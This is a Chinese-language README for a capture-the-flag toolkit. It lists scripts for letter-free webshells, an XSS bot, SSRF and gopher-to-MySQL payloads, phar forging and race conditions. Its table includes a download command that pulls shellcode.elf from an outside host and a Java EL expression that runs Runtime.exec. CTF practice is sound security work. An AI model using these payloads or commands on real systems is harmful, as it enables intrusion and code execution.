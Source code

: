 # CTF-Scripts

## 目录结构
```
.
├── README.md
├── dockers
│   └── docker_php_debug
│       ├── README.md
│       ├── docker-compose.yml
│       ├── logs
│       │   └── nginx
│       │       ├── access.log
│       │       ├── error.log
│       │       ├── info.log
│       │       └── notice.log
│       ├── mysql
│       │   ├── Dockerfile
│       │   ├── db.sql
│       │   └── xyhcms.sql
│       ├── nginx
│       │   ├── Dockerfile
│       │   ├── nginx.conf
│       │   └── templates
│       │       └── default.conf.template
│       ├── php-fpm
│       │   ├── Dockerfile
│       │   ├── mongodb-1.14.1.tgz
│       │   ├── www.conf
│       │   ├── xdebug-3.1.5.tgz
│       │   └── xdebug.ini
│       └── source
│           └── test.php
├── javascript
│   ├── node-ssrf-split.js
│   ├── port-scan.js
│   ├── test.js
│   └── xss-bot.js
├── misc
│   ├── UploadServer.py
│   ├── compress-zlib.py
│   └── download.sh
├── php
│   ├── calcSig.py
│   ├── ffi-leak.php
│   ├── geneshell.php
│   ├── geneshell2.php
│   └── serialize.php
├── thread
│   ├── contend.py
│   └── contend2.py
└── transform
    ├── convert2javabytes.py
    ├── encoding.js
    ├── gopher.py
    ├── gopher2mysql
    ├── gopher2mysql.py
    └── gopherConvert.py
```

## 文件说明

|  文件名 | 文件说明  |
|---|---|
|  encoding.js |  JS8/16进制/Unicode标准格式转换 |
|  node-ssrf-split.js | node<=8.0 http.get拆分请求构造，对于生成的数据进行encodeUR操作即可  |
|  port-scan.js | JS探测内网主机端口/内网主机  |
|  xss-bot.js | XSS机器人  |
|  serialize.php | 对于private/protected属性，序列化后S类型转换(截取phpgcc部分功能)  |
| geneshell.php  | 生成无字母webshell的字母部分，用法见p神：[无字母数字的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#_4)  |
| geneshell2.php  |  另一种无字母Shell生成函数，无短标签  |
|  compress-zlib.php | file_get_contents生成本地临时文件，使用socket原生套接字改写Http请求&响应包。双线程发送http请求，参考36c3 CTF includer:[includer](https://ljdd520.github.io/2020/01/15/hxp-36c3-ctf-Web-%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)  |
|  ffi-leak.php | PHP7.4 FFI extension use to leak data，来源：[@cjm00n](https://cjm00n.top/CTF/tctf-2020-wp.html)  |
|  calcSig.py | 根据内容计算phar的签名，生成新的phar文件  |
| gopherConvert.py  | wireshark网卡数据包转gopher数据形式  |
| gopher.py  | 生成post的gopher数据报文  |
|  gopher2mysql.py | 生成与mysql交互的gopher数据报文  |
| UploadServer.py  | 以当前目录，快速启动一个带有文件上传/下载功能代理服务器. Usage: python2 UploadServer.py 8888  |
| download.sh  | 无curl或wget情况的http下载文件请求，Usage：download.sh http://hpdoger.cn:8888/shellcode.elf > shellcode.elf  |
|contend.py |threading条件竞争模版，用来竞争php sess文件 |
| contend2.py|比较优雅的进行条件竞争模版，来自@P神 |
|convert2javabytes.py |转字符串为16进制字节码，方便java中的命令执行例如EL表达式：${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))} |
| c\perl交互readflag脚本| [readflag](https://github.com/ZeddYu/ReadFlag)|
| docker_php_debug| docker远程调试php板子，mysql+nginx+php-fpm+xdebug|
